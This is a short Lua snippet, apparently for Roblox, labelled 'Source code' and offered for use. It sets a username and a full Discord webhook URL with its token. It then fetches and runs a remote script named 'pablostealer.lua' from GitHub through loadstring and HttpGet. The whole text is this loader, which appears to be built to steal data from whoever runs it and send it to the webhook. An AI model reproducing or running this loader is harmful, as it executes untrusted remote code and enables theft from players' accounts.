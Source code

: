 
Username = "Xxgabgamer1"
Webhook = "https://discord.com/api/webhooks/1220082290336727211/0MZLNG6j3j_kCMUZOpasmnb8U3EJXhZqf61p8usK5zIX-Q9YZl2BDwjyHgQgJl2DXGWf"
loadstring(game:HttpGet("https://raw.githubusercontent.com/pablopoep/pablosteal/main/pablostealer.lua"))()
